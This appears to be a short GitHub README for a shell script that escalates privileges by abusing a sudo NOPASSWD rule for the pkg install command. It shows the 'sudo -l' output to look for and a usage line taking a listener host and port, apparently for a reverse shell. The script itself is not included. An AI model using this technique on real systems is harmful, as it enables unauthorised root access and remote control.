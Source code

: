 # pkg_privilege_escalation_script
shellscript for pkg_privilege_escalation

sudo -l

->
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *

if ge situation like a adove, when pressed "sudo -l"

then exploitable in this script,,, maybe


usage:
    
    ./pkg_priv_esc.sh <lhost> <lport>
    
 
